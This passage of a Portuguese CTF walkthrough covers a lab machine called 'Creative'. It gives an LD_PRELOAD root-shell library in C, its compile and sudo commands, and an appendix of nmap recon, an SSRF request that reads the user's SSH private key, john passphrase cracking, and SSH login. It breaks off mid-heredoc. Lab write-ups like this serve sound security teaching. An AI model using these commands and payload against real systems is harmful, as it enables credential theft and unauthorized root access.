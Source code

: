 ```bash
gcc -fPIC -shared -o /home/saad/rootshell.so /home/saad/rootshell.c -nostartfiles
```

### 3) Execução privilegiada

```bash
sudo LD_PRELOAD=/home/saad/rootshell.so /usr/bin/ping -c 1 127.0.0.1
# senha sudo: *****
```

Caiu em **root shell**:

```text
uid=0(root) gid=0(root) groups=0(root)
```

**Flag root:**

```text
/root/root.txt → *****
```

---

## 🧠 Por que o privesc funciona (visão profunda)

1. `sudo` executa `/usr/bin/ping` **como root** e **preserva `LD_PRELOAD`** (sudoers).
2. O loader dinâmico (ld‑linux) lê `LD_PRELOAD` e **injeta** a `.so` antes das libs padrão.
3. O **construtor** (`_init`) da `.so` roda **antes do `main()`** do alvo.
4. `_init` eleva/garante privilégios (`setuid(0)/setgid(0)`) e abre `/bin/bash -p`.
5. `unsetenv("LD_PRELOAD")` evita loop/ruído no shell resultante.

---

## 🗃️ Apêndice – Comandos essenciais

```bash
# Recon
nmap -T4 -n -sC -sV -Pn -p- 10.201.112.53

# /etc/hosts
echo "10.201.112.53 creative.thm beta.creative.thm" | sudo tee -a /etc/hosts

# SSRF base
curl -s -X POST http://beta.creative.thm/ \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://127.0.0.1:1337/'

# Exfil chave
curl -sX POST http://beta.creative.thm/ -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'url=http://127.0.0.1:1337/home/saad/.ssh/id_rsa' > saad_id_rsa
chmod 600 saad_id_rsa

# Desbloqueio
python3 /opt/john/ssh2john.py saad_id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# SSH
ssh -i saad_id_rsa saad@10.201.112.53  # passphrase: *****

# Privesc (LD_PRELOAD)
cat >/home/saad/rootshell.c <<'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void _init(void){unsetenv("LD_PRELOAD");setgid(0);setuid(0);system("/bin/bash -p");}
```